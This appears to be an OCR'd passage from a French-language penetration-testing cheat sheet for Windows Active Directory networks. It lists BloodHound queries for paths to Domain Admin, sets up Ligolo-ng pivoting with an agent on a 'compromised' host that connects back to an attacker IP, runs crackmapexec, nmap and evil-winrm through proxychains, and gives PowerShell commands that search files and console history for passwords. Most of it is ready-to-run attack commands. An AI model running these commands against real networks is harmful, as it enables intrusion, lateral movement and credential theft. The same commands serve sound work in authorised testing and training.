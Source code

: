 ```powershell
```
### Analyse BloodHound - Requêtes prioritaires
1. Marquer votre utilisateur comme "Owned"
2. Exécuter "Shortest Paths to Domain Admins from Owned Principals"
3. Vérifier "Find Principals with DCSync Rights"
4. Rechercher "Shortest Paths to Unconstrained Delegation Systems"
## Pivoting avec Ligolo-ng
### Configuration de Ligolo-ng
```bash
# Sur votre machine d'attaque (proxy)
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ip route add <RÉSEAU_CIBLE>/24 dev ligolo

# Lancer le relais Ligolo
./proxy -selfcert
```
### Déploiement de l'agent sur la machine compromise
```powershell
# Transférer l'agent sur la machine Windows compromise
# Exécuter l'agent
.\ligolo-agent.exe -connect <IP_ATTAQUANT>:11601 -ignore-cert

# Sur votre machine d'attaque, dans la console Ligolo
session
start

# Vérifier les interfaces et routes disponibles
ifconfig
netstat -r

# Ajouter une route vers un réseau interne
listener_add --addr 0.0.0.0:1080 --to 127.0.0.1:1080
```
### Utilisation de Ligolo pour les attaques
```bash
# Configurer proxychains pour utiliser le tunnel SOCKS
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

# Utiliser proxychains pour les outils
proxychains crackmapexec smb <IP_INTERNE>
proxychains nmap -sT -p 445,139,88,389 <IP_INTERNE>
proxychains evil-winrm -i <IP_INTERNE> -u <USER> -p <PASSWORD>
```
## Recherche de fichiers sensibles et informations d'identification
### Fichiers de configuration et scripts
```powershell
# Recherche de mots de passe dans les fichiers
findstr /si password *.xml *.ini *.txt *.config *.ps1 *.bat
Get-ChildItem -Path C:\ -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|pwd|passw|secret|credential" | Out-File -FilePath C:\Users\Public\results.txt

# Vérifier les fichiers de configuration courants
Get-Content "C:\inetpub\wwwroot\web.config" -ErrorAction SilentlyContinue
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```